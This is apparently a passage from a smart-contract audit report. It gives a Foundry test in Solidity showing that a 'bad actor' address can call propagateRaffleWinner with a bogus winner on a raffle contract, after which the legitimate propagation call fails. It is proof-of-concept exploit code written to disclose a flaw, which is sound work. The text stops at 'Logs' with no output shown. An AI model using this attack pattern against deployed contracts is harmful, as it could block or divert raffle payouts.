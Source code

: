 ```solidity
    // Setup balances for the users 
    for (uint i = 0; i < users.length; ++i) {
        vm.deal(users[i], 1 ether); 
    }

    // Each user buys tickets
    for (uint i = 0; i < users.length; ++i) {
        vm.prank(users[i]); 
        winnablesTicketManager.buyTickets{value: 0.1 ether}(raffleId, 5, block.number + 1000, ""); // Assuming 0.1 ETH per ticket, no need for a signature for now
    }

    
    getAndLogRaffleDetails(raffleId);

    logBalanceVsLockedEth();

    vm.warp(startsAt + 3 days);
    winnablesTicketManager.drawWinner(1);

    

    getAndLogRaffleDetails(raffleId);

    

    logBalanceVsLockedEth();

    ///// bad actor /////
    vm.prank(address(55));
    winnablesTicketManager.propagateRaffleWinner(address(9999999), 1, 1);


    ///// Good Actor /////
    winnablesTicketManager.propagateRaffleWinner(address(10), 1, 1);
    console.log("Winner Propagated");
    logBalanceVsLockedEth();
    

    
}


}

```


This test function fails when the good actor tries to call with correct info. 

Logs
